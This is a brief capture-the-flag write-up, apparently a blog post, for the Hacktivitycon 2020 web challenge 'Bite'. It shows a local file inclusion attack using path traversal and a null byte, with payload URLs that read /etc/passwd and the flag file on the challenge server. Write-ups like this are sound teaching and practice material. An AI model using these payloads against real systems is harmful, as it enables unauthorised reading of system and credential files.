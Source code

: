 ```yaml
---
title: Bite
date: 2020-12-29
excerpt: "'Bite' was a challenge in the Web category of Hacktivitycon"
classes: wide
categories: Hacktivitycon2020
tags:
  - hacktivitycon
  - null-byte
  - LFI
  - web
---
```



![img](/assets/images/ctf/hacktivitycon-web-bite/0.png)


![img](/assets/images/ctf/hacktivitycon-web-bite/1.png)


When clicking on one of the reference links, the url changes:



`jh2i.com:50010/?page=bit`



Looks to be pulling the page from the server. Check for LFI



![img](/assets/images/ctf/hacktivitycon-web-bite/2.png)


No dice there. Let's append a null byte and see what happens



`http://jh2i.com:50010/?page=../../../etc/passwd%00`



![img](/assets/images/ctf/hacktivitycon-web-bite/3.png)


There we go



`http://jh2i.com:50010/?page=../../../flag.txt%00`



![img](/assets/images/ctf/hacktivitycon-web-bite/4.png)
